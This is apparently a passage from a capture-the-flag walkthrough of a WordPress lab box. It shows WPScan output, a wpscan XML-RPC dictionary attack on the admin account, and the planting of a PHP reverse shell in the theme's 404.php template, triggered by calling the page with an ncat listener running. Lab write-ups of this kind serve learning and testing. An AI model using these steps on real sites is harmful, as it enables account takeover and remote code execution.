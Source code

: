 ```bash
 | [!] The version is out of date, the latest version is 3.5
 | Style URL: http://10.10.1.157/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteens simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.1.157/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: "Version: 1.3"

[...]
```

The `WPScan` revealed some interesting findings: 110 vulnerabilities, the directory structure of the WordPress instance, and the fact that XML-RPC was enabled. This could be used to perform a dictionary attack to find a valid user-password combination, which is much faster than using the wp-login method. Unfortunately, I was not able to find a user - but I had the dictionary, which may contain the password.

### Cracking the admin password

Despite not finding a user, I decided to run the `WPScan` with the user `admin`, because why not? It's always worth trying the obvious!

```bash
wpscan --password-attack xmlrpc -t 20 -U admin -P ~/Downloads/xxxxxx.dic --url http://10.10.1.157
```

The dictionary was huge, and I wasted at least half an hour before I realized that there were duplicates in the dictionary. I removed the duplicates with awk, which reduced the size to about 12%.

```bash
awk '!seen[$0]++' ~/Downloads/xxxxxx.dic > xxxxxx.txt
```

The password attack with the user admin was not successful, so I tried mrrobot and then elliot. That finally was successful, and I had the password for the WordPress admin panel.

One way to perform a Remote Code Execution (RCE) on a WordPress instance is to edit a page so that it serves a PHP reverse shell. You can do this in the Appearance/Themes/Editor section. I replaced the content of the 404.php template with the pentestmonkey PHP reverse shell. If you are looking for reverse shells, check out [revshells](https://www.revshells.com/).

On my local machine, I started netcat to listen on the port I configured the reverse shell with:

```bash
ncat -lvp 6666
```

Then I called the 404.php page `http://10.10.1.157/wp-content/themes/twentyfifteen/404.php`.
